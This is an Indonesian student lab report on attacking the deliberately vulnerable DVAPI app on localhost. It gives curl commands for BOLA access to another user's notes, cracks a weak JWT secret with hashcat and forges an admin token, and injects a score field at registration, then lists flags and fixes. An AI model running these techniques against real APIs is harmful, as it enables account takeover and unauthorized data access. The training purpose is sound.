







# DVAPI (Damn Vulnerable API)
## 1. Informasi Umum

- **Nama Peserta**        : Aria Fatah
- **Tanggal Praktikum**   : 29 Juni 2025
- **Nama Praktikum**      : API Penetration Testing OWASP API Top 10
- **Target Sistem**       : DVAPI (Damn Vulnerable API)
- **IP/URL Target**       : [http://localhost:3000](http://localhost:3000)

---

## 2. Tujuan Praktikum
Tujuan dari praktikum ini adalah **mengidentifikasi, memahami, dan mengeksploitasi kerentanan umum pada API**, khususnya berdasarkan daftar **OWASP API Security Top 10** seperti **Broken Object Level Authorization (BOLA), Broken Authentication, Excessive Data Exposure, dan lainnya.** Praktikum ini menggunakan DVAPI (Damn Vulnerable API) sebagai target pengujian.

---

## 3. Tools dan Bahan
- **Tools Utama**:
  - Firefox/Chrome DevTools
  - Curl

- **VM/Lab Environment**:
  - DVAPI (Docker container)
  - Kali Linux (attacker machine)

---

## 4. Metodologi Pengujian
Metode pengujian mengacu pada standar **NIST SP 800-115**:

1. **Planning**
2. **Discovery**
3. **Attack**
4. **Reporting**

---

## 5. Langkah-Langkah Praktikum
1. Menjalankan DVAPI menggunakan docker compose:
   ```bash
   git clone https://github.com/payatu/DVAPI.git
   cd DVAPI
   docker compose up --build
   ```
2. Mengakses aplikasi di browser `http://localhost:3000`
3. register akun, dan login

### 1. API1:2023 - Broken Object Level Authorization (BOLA)
Broken Object Level Authorization (BOLA) terjadi saat sistem tidak melakukan pengecekan hak akses terhadap objek secara tepat. Ini memungkinkan penyerang untuk mengakses data milik pengguna lain hanya dengan mengganti parameter seperti `username`, `id`, atau `user_id`.

Dalam contoh ini, API endpoint `getNote` menerima parameter `username`, dan sistem tidak memverifikasi apakah token yang dikirim benar-benar milik `username` tersebut. Hal ini memungkinkan seseorang dengan token yang valid untuk mengakses catatan (`note`) milik pengguna lain hanya dengan mengganti nilai `username`.

#### 1. Register user baru
```bash
curl -X 'POST' 'http://localhost:3000/api/register' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -d '{"username": "test", "password": "123"}'
```

#### 2. Login user untuk mendapatkan token
```bash
curl -v -X POST 'http://localhost:3000/api/login' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -d '{"username": "test","password": "123"}' 2>&1 | grep Authorization
```
> Simpan token dari hasil login, misalnya: `Bearer abc.def.ghi`

#### 3. Akses profil milik sendiri (untuk test token saja tidak wajib)
```bash
curl -H "Authorization: Bearer [TOKEN]" \
  http://localhost:3000/api/profile
```

#### 4. Akses note milik sendiri (valid)
```bash
curl -H "Authorization: Bearer [TOKEN]" \
  http://localhost:3000/api/getNote?username=test
```

#### 5. Akses note milik user lain (BOLA)
```bash
curl -H "Authorization: Bearer [TOKEN]" \
  http://localhost:3000/api/getNote?username=admin
```
> Jika berhasil mengakses note `admin`, maka API rentan terhadap BOLA.


#### flag
```bash
flag{bola_15_ev3rywh3r3}
```

### 2. API2:2023 - Broken Authentication
Broken Authentication terjadi saat mekanisme otentikasi tidak cukup kuat, sehingga penyerang dapat membajak akun pengguna lain atau memalsukan identitas. Dalam studi kasus ini, token JWT menggunakan secret yang lemah sehingga dapat di-crack dan dimodifikasi dengan mudah.

#### 1. Login untuk Mendapatkan Token
```bash
curl -v -X POST 'http://localhost:3000/api/login' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -d '{"username": "test","password": "123"}' 2>&1 | grep Authorization
```
> Simpan token dari hasil login, misalnya: `Bearer abc.def.ghi`

#### 2. Crack Token JWT Menggunakan Hashcat
```bash
echo "[TOKEN]" > token
hashcat token -m 16500 /usr/share/wordlists/rockyou.txt
```

> Hasil: `secret123`


#### 3. Decode dan Modifikasi Token
* Buka token di situs decoder JWT seperti [jwt.io](https://jwt.io) untuk mengecek token



* Setelah ter-decode, ubah payload dari:

```json
{
  "username": "test",
  "isAdmin": false
}
```

Menjadi:

```json
{
  "username": "test",
  "isAdmin": true
}
```

* Encode ulang dan tanda tangani dengan `secret123`



#### 4. Gunakan Token Baru untuk Akses Data Admin

```bash
curl -H "Authorization: Bearer [MODIFIED_TOKEN]" \
  http://localhost:3000/api/profile
```

> Perhatikan perubahan output antara token asli dan token yang sudah dimodifikasi.



#### Flag

```bash
flag{aBus1ng_w34K_s3cR3TTT}
```

### 3. API3:2023 Broken Object Property Level Authorization
**Broken Object Property Level Authorization** terjadi ketika aplikasi **tidak memvalidasi** dengan benar **hak akses pengguna** terhadap **properti atau atribut** tertentu dalam sebuah objek.
Artinya, **meskipun pengguna hanya seharusnya dapat mengatur properti tertentu** (misalnya username dan password), **mereka bisa menyisipkan properti lain** (misalnya score) dan sistem tetap menerima dan menyimpan data tersebut tanpa validasi.

#### 1. Registrasi Pengguna Baru dengan Manipulasi Score
Pada tahap ini, kita melakukan registrasi pengguna baru dengan menyisipkan properti tambahan score dalam request JSON: \
```bash
curl -X 'POST' 'http://localhost:3000/api/register' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -d '{"username": "test", "password": "123", "score": 12345}'
```


Padahal, normalnya user seharusnya tidak bisa menentukan nilai score secara langsung saat registrasi. Namun, karena tidak ada validasi tingkat properti, server menyimpan nilai score tersebut dan membuat pengguna langsung berada di posisi teratas leaderboard.



#### 2. Login dan Akses Endpoint /api/scores
Setelah registrasi, kita login dengan akun pengguna lain dan mencoba mengakses data leaderboard:

```bash
curl -v -X POST 'http://localhost:3000/api/login' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -d '{"username": "test2","password": "123"}' 2>&1 | grep Authorization

curl -H "Authorization: Bearer [TOKEN]" \
  http://localhost:3000/api/scores
```

Hasilnya, kita bisa melihat bahwa pengguna "test" muncul di peringkat atas karena score yang dimanipulasi. \


Kurangnya kontrol pada level properti objek memungkinkan pengguna untuk menyisipkan atau memodifikasi data yang seharusnya tidak bisa mereka ubah. Hal ini merupakan salah satu bentuk Broken Object Property Level Authorization yang sangat berbahaya, terutama jika menyangkut sistem skor, peran, atau data sensitif lainnya.

#### flag
```bash
flag{br0k3n_oBj3cT_Pr0p3rTy_L3v3L_Auth0RiS4Ti0N}
```

---

## 6. Temuan dan Analisis
| No | Jenis Kerentanan                           | Deskripsi Temuan                                                               | Dampak                                      | Bukti  |
| -- | ------------------------------------------ | ------------------------------------------------------------------------------ | ------------------------------------------- | ------ |
| 1  | Broken Object Level Authorization (BOLA)   | Endpoint tidak memverifikasi kepemilikan objek berdasarkan token               | Pengguna dapat mengakses data pengguna lain |  |
| 2  | Broken Authentication                      | JWT menggunakan secret yang lemah sehingga bisa di-crack dan dimodifikasi      | Penyerang bisa memperoleh hak akses admin   |  |
| 3  | Broken Object Property Level Authorization | Tidak ada validasi pada atribut saat registrasi, memungkinkan manipulasi score | Manipulasi data sensitif (score)            |  |

## 7. Rekomendasi Perbaikan
| No | Jenis Kerentanan                           | Rekomendasi Teknis                                                                                                                                                                                  |
| -- | ------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1  | Broken Object Level Authorization (BOLA)   | - Validasi token harus memastikan bahwa user hanya bisa mengakses objek miliknya sendiri.<br>- Jangan izinkan pengguna memilih sendiri parameter sensitif seperti `username` di query parameter.    |
| 2  | Broken Authentication                      | - Gunakan secret JWT yang kompleks dan panjang.<br>- Terapkan rotasi dan validasi token secara berkala.<br>- Hindari menyimpan informasi penting dalam payload tanpa enkripsi tambahan.             |
| 3  | Broken Object Property Level Authorization | - Validasi atribut input dan gunakan whitelist terhadap properti yang diizinkan.<br>- Abaikan atau tolak properti yang tidak relevan atau tidak boleh di-set oleh pengguna.                         |

## 8. Evaluasi dan Refleksi
### Evaluasi Berdasarkan Jenis Kerentanan
1. **Broken Object Level Authorization (BOLA)**
   * Evaluasi: Sistem gagal memastikan bahwa token benar-benar milik pengguna yang disebut dalam parameter.
   * Refleksi: Perlu pendekatan yang ketat dalam validasi otorisasi terhadap setiap objek berdasarkan identity yang sah dari token.

2. **Broken Authentication**
   * Evaluasi: Sistem menggunakan secret JWT yang terlalu lemah dan mudah ditebak.
   * Refleksi: Harus diterapkan JWT secret yang kompleks dan mekanisme validasi signature yang lebih aman.

3. **Broken Object Property Level Authorization**
   * Evaluasi: Tidak ada filter terhadap properti yang dikirim user, sehingga atribut tambahan seperti `score` ikut disimpan.
   * Refleksi: Backend perlu membatasi field yang dapat diubah user, hanya mengizinkan properti tertentu yang sah.
